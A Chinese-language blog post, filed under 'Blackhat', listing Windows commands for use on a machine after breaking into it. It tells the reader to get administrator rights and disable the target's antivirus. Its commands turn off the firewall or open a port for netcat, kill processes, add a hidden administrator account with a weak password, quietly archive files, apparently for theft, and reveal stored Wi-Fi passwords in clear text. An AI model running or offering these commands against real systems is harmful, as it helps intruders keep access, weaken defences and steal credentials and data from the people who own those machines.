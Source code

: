 ```yaml
---
title: 在渗透后非常有用的windows命令整理
name: windows-useful-cmds
date: 2017-10-29
tags: [cmd]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# 在渗透后非常有用的windows命令整理

## 注意事项

以下整理的命令不一定在所有windows平台适用，如win10版本等高版本的系统会被拒绝访问，某些杀毒软件会弹出提示框显示授权操作，所以建议是拿到超级管理员权限，且将目标主机的杀毒软件卸载或者关闭。

## 命令明细

```
# 关闭防火墙
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable

# 添加防火墙出入站规则（关闭防火墙失败的情况）
netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445
# 检查查看防火墙配置的出入站规则
netsh firewall show portopening

# 查看进程杀死进程
tasklist
tskill 6486

# 创建用户并添加到管理员组
net user vinny$ 123321 /add
net localgroup administrators vinny$ /add

# 删除目标用户或者密码
net user vinny$ *
net user vinny$ /delete

# 压缩文件夹或者文件（目标系统安装好winrar的情况）
"%ProgramFiles%\Winrar\rar" a -ag -k -r -s -ibck a.rar "SAP BYD资料"
"%ProgramFiles%\Winrar\rar" a -ag -k -r -s -ibck a.rar 1.txt 2.txt

# 查看目标机器保存的无线热点和密码
netsh wlan show profile
netsh wlan show profile name="menote2" key=clear
```